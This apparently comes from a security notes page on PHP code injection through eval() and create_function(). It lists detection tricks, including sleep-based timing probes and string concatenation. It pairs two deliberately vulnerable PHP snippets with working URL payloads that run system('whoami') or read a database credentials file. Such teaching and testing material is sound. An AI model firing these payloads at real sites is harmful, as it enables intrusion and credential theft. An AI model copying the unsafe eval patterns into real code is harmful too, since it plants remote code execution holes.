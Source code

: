 #### Detection
- `eval()` based code injection (user input interpreted/run as code)
- break syntax (`'` or `"`)
- comments injection (`/*0*/`)
- simple concatenation (`"."`)
- string concatenation (`"."in"."put"."` instead of `"input"`)
- time-based (`";sleep(0);//` vs `";sleep(5);//`)

#### Example 1

Payloads:
```
$host/x.php?name=";sleep(2);//
$host/x.php?name=in"."put
$host/X.php?name=";system('cat ../sqli/db.php');//
```

Code:
```php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
```

#### Example 2

Payload:
```
$host/x.php?order=id);}system('whoami');//
```

Code:
```php
$order = $_GET["order"];
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```
